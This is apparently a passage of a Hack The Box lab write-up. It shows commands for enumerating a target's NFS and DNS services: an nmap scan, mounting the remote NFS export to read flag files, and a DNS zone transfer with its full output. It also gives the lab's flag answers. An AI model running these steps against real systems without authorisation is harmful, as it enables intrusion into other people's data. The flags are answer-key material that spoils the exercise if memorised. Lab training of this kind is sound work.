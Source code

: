 ```
sudo nmap $ip -p111,2049 -sV -sC
showmount -e $ip 
mkdir target 
sudo mount -t nfs $ip:/ ./target -o nolock
cd target 
tree .
cat var/nfs/flag.txt 
```

Results: HTB{hjglmvtkjhlkfuhgi734zthrie7rjmdze}

**Enumerate the NFS service and submit the contents of the flag.txt in the "nfsshare" share as the answer.**

```
cat mnt/nfsshare/flag.txt 
```

Results: HTB{8o7435zhtuih7fztdrzuhdhkfjcn7ghi4357ndcthzuc7rtfghu34}


#### DNS

**Interact with the target DNS using its IP address and enumerate the FQDN of it for the "inlanefreight.htb" domain.**


```
dig any inlanefreight.htb @$ip
```

Result:  ns.inlanefreight.htb



**Identify if its possible to perform a zone transfer and submit the TXT record as the answer. (Format: HTB{...))**

```
#First, we do an initial transfer zone
dig axfr inlanefreight.htb @$ip
```

Results:

```

; <<>> DiG 9.19.21-1-Debian <<>> axfr inlanefreight.htb @10.129.218.112
;; global options: +cmd
inlanefreight.htb.	604800	IN	SOA	inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800
inlanefreight.htb.	604800	IN	TXT	"MS=ms97310371"
inlanefreight.htb.	604800	IN	TXT	"atlassian-domain-verification=t1rKCy68JFszSdCKVpw64A1QksWdXuYFUeSXKU"
inlanefreight.htb.	604800	IN	TXT	"v=spf1 include:mailgun.org include:_spf.google.com include:spf.protection.outlook.com include:_spf.atlassian.net ip4:10.129.124.8 ip4:10.129.127.2 ip4:10.129.42.106 ~all"
inlanefreight.htb.	604800	IN	NS	ns.inlanefreight.htb.
app.inlanefreight.htb.	604800	IN	A	10.129.18.15
dev.inlanefreight.htb.	604800	IN	A	10.12.0.1
internal.inlanefreight.htb. 604800 IN	A	10.129.1.6
mail1.inlanefreight.htb. 604800	IN	A	10.129.18.201
ns.inlanefreight.htb.	604800	IN	A	127.0.0.1
inlanefreight.htb.	604800	IN	SOA	inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800
;; Query time: 44 msec
;; SERVER: 10.129.218.112#53(10.129.218.112) (TCP)
;; WHEN: Wed Jul 31 13:57:45 EDT 2024
;; XFR size: 11 records (messages 1, bytes 560)

```
